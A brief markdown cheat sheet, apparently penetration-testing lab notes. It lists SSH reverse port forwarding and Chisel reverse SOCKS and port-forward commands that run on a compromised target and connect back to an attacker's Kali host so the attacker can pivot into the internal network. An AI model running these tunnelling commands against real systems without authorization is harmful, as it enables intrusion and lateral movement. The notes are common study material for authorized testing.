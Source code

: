 ## SSH 
target machine on port 8000 and in our machine in 7560
```
ssh -N -R 127.0.0.1:7560:127.0.0.1:8000 kali@192.168.45.175
```
## Chisel
on target machine
```
./chisel client 192.168.45.165:8001 R:socks
```
on kali
```
chisel server --port 8001 --reverse
```

to forward
```
chisel client 192.168.45.165:8001 R:Internal-IP:Jump-Host-IP:80
```
